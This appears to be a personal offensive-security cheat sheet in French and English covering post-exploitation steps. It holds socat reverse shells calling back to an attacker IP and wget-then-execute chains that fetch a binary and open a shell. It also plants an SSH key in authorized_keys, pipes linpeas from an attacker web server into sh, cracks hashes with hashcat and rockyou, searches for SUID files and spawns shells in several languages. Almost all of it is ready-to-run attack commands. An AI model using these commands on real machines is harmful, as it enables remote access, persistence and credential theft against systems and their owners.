 # Dans un reverse shell

## Upgrade a reverse shell to a fully TTY interactive shell

Sometimes we will get a shell but it won't be very convenient. There are some ways to upgrade your shells to interactive TTY reverse shell
if you want a quick dirty little fix but not completely interactive this python command works well for python3
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
```

## With socat
On your kali
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4440
```
From the victime machine
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440 
```

If socat is not installed see here for static binaries
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:my_ip:4440
```
OR
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```
In your kali then put on your python3 webserver
and then 
```bash
wget -q http://YOUR-KALI-IP/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:YOUR-KALI-IP:4440
```

## Pour avoir un accès ssh

```bash
ssh-keygen -f mykey
# No passphrase
mykey & mykey.pub
mv mykey.pub ~/.ssh/authorized_keys
# Copy mykey to local machine in the .ssh folder
nano mykey # and paste the private key
sudo chmod 600 mykey

ssh -i mykey user@ip
```


# Détecter un hash 

```bash
hashcat hashPWD.txt rockyou.txt

The following 11 hash-modes match the structure of your input hash:

      # | Name                                                | Category
  ======+=====================================================+======================================
    900 | MD4                                                 | Raw Hash
      0 | MD5                                                 | Raw Hash
     70 | md5(utf16le($pass))                                 | Raw Hash
   2600 | md5(md5($pass))                                     | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                    | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))             | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                         | Raw Hash salted and/or iterated
   1000 | NTLM                                                | Operating System
   9900 | Radmin2                                             | Operating System
   8600 | Lotus Notes/Domino 5                                | Enterprise Application Software (EAS)


```

Puis sélectionner le # de l'algo de hashage
Exemple avec RAW MD5
```bash
hashcat -m 0 hashPWD.txt rockyou.txt
```

# Privilege Escalation

## Linux

`sudo -l`

`python -m http.server 80 -> curl mon_ip/linpeas.sh | sh`

`find / -type f -perm -04000 -ls 2>/dev/null`
`find / -perm -4000 2>/dev/null`
`find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null`


```py
import subprocess
subprocess.call("/bin/sh")
```
```js
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
```c
#include <stdlib.h>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```cpp
#include <cstdlib>
#include <unistd.h>

int main() {
    execl("/bin/sh", "/bin/sh", NULL);
    return 0;
}
```
```rust
use std::process::Command;

fn main() {
    Command::new("/bin/sh")
        .status()
        .expect("Failed to execute command");
}
```
```go
package main

import (
	"os"
	"os/exec"
)

func main() {
	cmd := exec.Command("/bin/sh")
	cmd.Stdin = os.Stdin
	cmd.Stdout = os.Stdout
	cmd.Stderr = os.Stderr
	cmd.Run()
}
```
```java
import java.io.IOException;

public class Main {
    public static void main(String[] args) {
        try {
            Process process = new ProcessBuilder("/bin/sh").inheritIO().start();
            process.waitFor();
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }
}
```
